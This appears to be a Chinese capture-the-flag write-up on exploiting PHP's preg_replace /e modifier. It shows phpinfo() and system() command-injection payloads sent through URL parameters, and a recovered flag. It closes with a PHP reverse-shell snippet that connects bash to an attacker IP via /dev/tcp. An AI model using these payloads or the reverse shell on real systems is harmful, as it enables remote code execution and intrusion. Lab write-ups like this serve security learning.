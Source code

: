 但是这个吊毛函数怎么利用呢，查询网络：当使用 `/e` 修饰符时。

### /e修饰符的安全问题

`/e` 修饰符会将替换字符串作为 PHP 代码执行，这可能导致代码执行漏洞。例如：

```php
$pattern = '/(.*)/e';
$replacement = 'strtolower("$1")';
$subject = '{${phpinfo()}}';
echo preg_replace($pattern, $replacement, $subject);
```

在这个例子中，`preg_replace` 会将 `$replacement` 作为 PHP 代码执行，导致 `phpinfo()` 函数被调用。这种情况下，攻击者可以通过控制输入来执行任意代码

 那就尝试

```
pat= /(.*)/e&rep=strtolower("$1")&sub={${phpinfo()}}
```

![image-20240714010718225](C:\Users\10649\AppData\Roaming\Typora\typora-user-images\image-20240714010718225.png)                          

显示出了php信息，以此我们可以继续尝试构造          

```
pat=%20/123/e&rep=system("ls")&sub=123
```

css index.html index.php js layui logo.png s3chahahaDir start.sh 视图.png

继续执行

```php
pat=%20/123/e&rep=system("cd 3chahahaDir%20 && ls")&sub=123
```

小b藏的挺深，在flag里的一个flag.php，打开它还不显示出来，因为他会显示在网页代码中，查看到

```
<!--?php

$flag = 'cyberpeace{bb62ea56b1b70cb142f762c54d899e7d}';

?-->
```

### 总结：

这道题考察的思路就是对php的代码审计与filter协议的利用，函数preg_replace的利用。只有知道这些关于php的漏洞才能成功执行这道题。

#### 额外的思路

我看到由ai提到的远程操作漏洞，有如下想法：

能不能在kali上开一个80端口上传一个php反弹shell回靶机呢？

编写一个反弹shell

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.213.129/1234 0>&1'");
？>
```
